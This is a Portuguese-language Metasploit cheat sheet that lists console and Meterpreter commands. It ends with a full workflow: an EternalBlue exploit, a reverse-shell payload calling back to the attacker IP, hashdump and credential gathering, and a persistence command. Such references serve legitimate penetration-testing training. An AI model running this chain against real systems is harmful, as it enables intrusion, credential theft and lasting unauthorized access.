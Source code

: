 ## O que é o Metasploit Framework?

### Inicialização
```bash
# Iniciar o Metasploit Console
msfconsole

# Iniciar com configurações específicas
msfconsole -q  # Modo silencioso
msfconsole -r /path/to/resource.rc  # Executar script de recursos
```

## Comandos Principais do MSFConsole

### Comandos Básicos de Navegação
```msf
help ou ?              # Mostrar ajuda geral
help <comando>         # Ajuda específica de um comando
banner                 # Mostrar banner do Metasploit
version                # Mostrar versão
history                # Histórico de comandos
exit ou quit           # Sair do Metasploit
```

### Comandos de Módulos
```msf
show exploits          # Listar todos os exploits
show payloads          # Listar todos os payloads
show auxiliary         # Listar módulos auxiliares
show encoders          # Listar encoders
show nops              # Listar NOP generators
show options           # Mostrar opções do módulo atual
show advanced          # Mostrar opções avançadas
show targets           # Mostrar alvos suportados
show missing           # Mostrar opções obrigatórias não configuradas
```

### Gerenciamento de Módulos
```msf
use <caminho/do/modulo>    # Carregar um módulo
back                       # Voltar ao contexto anterior
search <termo>             # Buscar módulos
  search type:exploit platform:windows
  search cve:2023-1234
  search name:eternalblue
info <modulo>              # Informações detalhadas do módulo
reload_all                 # Recarregar todos os módulos
```

### Configuração de Exploits
```msf
# Após usar um exploit (ex: use exploit/windows/smb/ms17_010_eternalblue)
set RHOSTS 192.168.1.100   # Definir host alvo
set RPORT 445              # Definir porta
set LHOST 192.168.1.50     # Definir IP local (para reverse shell)
set LPORT 4444             # Definir porta local
set TARGET 0               # Definir alvo específico
set PAYLOAD windows/meterpreter/reverse_tcp  # Definir payload
set VERBOSE true           # Modo verboso
set THREADS 10             # Definir número de threads
show options               # Verificar configurações
```

### Execução e Exploração
```msf
exploit ou run           # Executar o exploit
exploit -j               # Executar como job em background
exploit -z               # Executar sem interação após sucesso
check                    # Verificar se alvo é vulnerável (quando disponível)
```

## Meterpreter - Comandos Essenciais

### Comandos Básicos do Meterpreter
```meterpreter
help                     # Mostrar ajuda do Meterpreter
sysinfo                  # Informações do sistema
getuid                   # Mostrar usuário atual
getpid                   # Mostrar ID do processo
ps                       # Listar processos
kill <PID>               # Matar processo
shell                    # Obter shell do sistema
background               # Colocar sessão em background
sessions                 # Listar sessões ativas
sessions -i <ID>         # Interagir com sessão específica
exit                     # Sair do Meterpreter
```

### Comandos de Sistema de Arquivos
```meterpreter
pwd ou getwd             # Diretório atual
ls ou dir                # Listar arquivos
cd <diretório>           # Mudar diretório
cat <arquivo>            # Mostrar conteúdo do arquivo
download <remoto> <local> # Baixar arquivo
upload <local> <remoto>  # Upload de arquivo
edit <arquivo>           # Editar arquivo
rm ou del <arquivo>      # Remover arquivo
mkdir <diretório>        # Criar diretório
rmdir <diretório>        # Remover diretório
```

### Comandos de Rede
```meterpreter
ipconfig ou ifconfig     # Informações de rede
route                    # Tabela de roteamento
portfwd                  # Encaminhamento de portas
  portfwd add -l 3389 -p 3389 -r <IP_alvo>
arp                      # Tabela ARP
netstat                  # Conexões de rede
```

### Comandos de Privilégios e Persistência
```meterpreter
getsystem                # Tentar elevar privilégios
run post/windows/escalate/getsystem  # Alternativa para escalação
run post/multi/manage/shell_to_meterpreter  # Converter shell para meterpreter
run persistence -h       # Módulo de persistência
run post/windows/manage/migrate      # Migrar para outro processo
hashdump                 # Extrair hashes de senha
run post/windows/gather/credentials  # Coletar credenciais
```

## Módulos Auxiliares

### Scanners
```msf
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
run

use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/http/http_version
```

### Coleta de Informações
```msf
use auxiliary/gather/dns_enum
use auxiliary/gather/netbios_nat_enum
use auxiliary/gather/shodan_search
```

### Testes de Vulnerabilidade
```msf
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/ssl/heartbleed
```

## Gerenciamento de Sessões

```msf
sessions                 # Listar todas as sessões
sessions -l              # Listar sessões com detalhes
sessions -i <ID>         # Interagir com sessão específica
sessions -k <ID>         # Encerrar sessão específica
sessions -K              # Encerrar todas as sessões
sessions -u <ID>         # Fazer upgrade para Meterpreter
sessions -c <comando>    # Executar comando em todas as sessões
```

## Gerenciamento de Jobs

```msf
jobs                     # Listar jobs ativos
jobs -l                  # Listar jobs com detalhes
jobs -k <ID>             # Parar job específico
jobs -K                  # Parar todos os jobs
```

## Comandos de Banco de Dados

```msf
db_status                # Verificar status do banco de dados
db_connect               # Conectar ao banco de dados
workspace                # Gerenciar workspaces
  workspace              # Listar workspaces
  workspace <nome>       # Mudar para workspace
  workspace -a <nome>    # Adicionar workspace
  workspace -d <nome>    # Remover workspace
hosts                    # Listar hosts no banco de dados
services                 # Listar serviços descobertos
vulns                    # Listar vulnerabilidades
loot                     # Listar dados coletados
notes                    # Listar notas
```

## Comandos Úteis para Desenvolvimento

```msf
check                   # Testar módulo sem explorar
reload                  # Recarregar módulo atual
edit                    # Editar módulo atual com $EDITOR
irb                     # Iniciar console Ruby interativo
resource <script.rc>    # Executar script de recursos
makerc <arquivo>        # Salvar comandos atuais em arquivo .rc
```

## Exemplo de Fluxo de Trabalho Completo

```msf
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar módulo
search eternalblue

# 3. Usar exploit
use exploit/windows/smb/ms17_010_eternalblue

# 4. Configurar opções
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444

# 5. Verificar configurações
show options

# 6. Executar
exploit

# No Meterpreter:
# 7. Coletar informações
sysinfo
getuid

# 8. Migrar para processo estável
run post/windows/manage/migrate

# 9. Coletar hashes
hashdump

# 10. Criar persistência
run persistence -U -i 10 -p 443 -r 192.168.1.50

# 11. Colocar em background
background

# 12. Trabalhar com outras sessões
sessions -l
```

## Dicas Importantes

1. **Sempre atualize**: `sudo snap refresh metasploit-framework`
2. **Use workspaces** para organizar diferentes projetos
3. **Documente tudo** com notes no banco de dados
4. **Teste em ambiente controlado** antes de usar em produção
5. **Mantenha o sistema atualizado** com `msfupdate`
